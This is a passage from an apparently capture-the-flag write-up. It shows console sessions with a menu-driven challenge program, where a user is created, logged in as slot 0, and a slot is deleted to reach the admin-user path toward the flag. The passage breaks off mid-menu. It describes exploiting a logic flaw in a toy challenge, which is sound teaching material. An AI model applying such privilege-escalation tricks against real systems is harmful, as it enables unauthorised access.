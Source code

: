 ```
enter new name please:Test
enter new password please:Test
user created in slot number 0

welcome!
(you are not logged in)
```

We login as this user:

```
please select an option:
        0) get flag!
        1) add admin user
        2) add normal user
        3) login
        4) logout
        5) delete user
        6) delete all users
        7) exit

choose an option(0-7):
>> 3
choose user slot(0-7)
        0) Test
        1) Test
        2) Test
        3) Test
        4) Test
        5) Test
        6) Test
        7) Test
>> 0
enter the user password please:Test
you are logged in!

welcome!
hi Test!
you're logged in as user number: 0
```

This sets `logged_in = user_id` which is `0`. We now want to add an admnin user, but we can only do that if there is some empty slot. So we delete slot #1:

```
please select an option:
        0) get flag!
        1) add admin user
        2) add normal user
        3) login
        4) logout
        5) delete user
        6) delete all users
        7) exit

choose an option(0-7):
>> 5
choose user slot(0-7)
        0) Test
        1) Test
        2) Test
        3) Test
        4) Test
        5) Test
        6) Test
```